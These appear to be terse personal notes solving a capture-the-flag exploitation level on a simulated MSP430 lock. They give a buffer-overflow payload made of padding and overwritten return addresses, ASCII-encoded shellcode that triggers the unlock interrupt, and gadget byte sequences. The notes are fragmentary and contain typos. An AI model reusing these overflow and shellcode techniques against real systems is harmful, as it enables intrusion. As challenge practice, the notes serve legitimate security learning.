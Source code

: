 45fc 7e00

45fc --> hex(0x7a66 * 2 + 0x5130) = 0x145fc

## Hex to ascii
```python
_hex = '3450667a3450667a3450305145454545454545454545'
print(bytes.fromhex(_hex).decode())
```
'A' * 0x11 + 'TF' + 'FD'
AAAAAAAAAAAAAAAAATFFDAAFD

### Final strategy
Use ret to jump to <getsn> 'TF' (Without push the address, we will use our stackZ)
Read the data to 'FD'
Write new shellcode which unlcok the door
	3012 7f00      push	#0x7f
	b012 fc45      call	#0x45fc <INT>
	30127f00b012fc45
Use getsn ret to jump to the shellcode (The seconed FD)
###


1. Shellcode start at 0x43ec
2. First ascii adress 0x4430 -> Should overwrite 0x44
3. Seconed ret address at 0x4400 (0x14 after shellcode stsart)
3. 'A' * 0x11 + '0D' + 'FD' + 'A'*0x2e + shellcode #*

AAAAAAAAAAAAAAAAA0DFDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<shellcode>
4. 
add #0x7a66, r4
add #0x7a66, r4
add #0x5130, r4
ret

add #0x7a66, r4
add #0x7a66, r4
add #0x5130, r4
mov.b	r5, r5
mov.b	r5, r5
mov.b	r5, r5
mov.b	r5, r5
mov.b	r5, r5
3450667a3450667a3450305145454545454545454545 -> 4Pfz4Pfz4P0QEEEEEEEEEE

4. AAAAAAAAAAAAAAAAA0DFDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4Pfz4Pfz4P0Q0A
EEEEEEEE
443e
#
A*0x10 + '4PEG'
+
add #0x1111, sp
3150 1111
+
add.b #0x11, sp
7150 1100
+
ret
3041
+
pop	sp
3141
+
pop r4 - r9
3441 - 3941
+